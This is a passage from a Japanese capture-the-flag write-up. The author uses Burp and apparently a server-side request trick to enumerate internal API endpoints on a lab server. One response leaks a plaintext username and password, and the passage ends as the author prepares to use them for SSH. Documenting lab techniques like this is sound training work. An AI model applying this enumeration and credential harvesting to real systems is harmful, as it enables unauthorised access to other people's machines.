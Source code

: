 Burpにリクエストが拾われていたので見てみるとapiのレスポンスが返ってきていることが分かった。

![](../screenshot/2024-06-16_12-15.png)

レスポンスの内容を見てみる

```json
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

URLの一部があるので同じ方法で以下のリクエストを送信してみる

```
http://127.0.0.1:5000/api/latest/metadata/messages/promos
http://127.0.0.1:5000/api/latest/metadata/messages/coupons
http://127.0.0.1:5000/api/latest/metadata/messages/authors
http://127.0.0.1:5000/api/latest/metadata/messages/how_to_use_platform
http://127.0.0.1:5000/api/latest/metadata/changelog
http://127.0.0.1:5000/api/latest/metadata
```

それぞれ送信していると`http://127.0.0.1:5000/api/latest/metadata/messages/authors`のリクエストでは以下のレスポンスが返ってきた

```
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```

以下の認証情報を発見した

```
dev:dev080217_devAPI!@
```

この情報を使用してsshで接続してみる
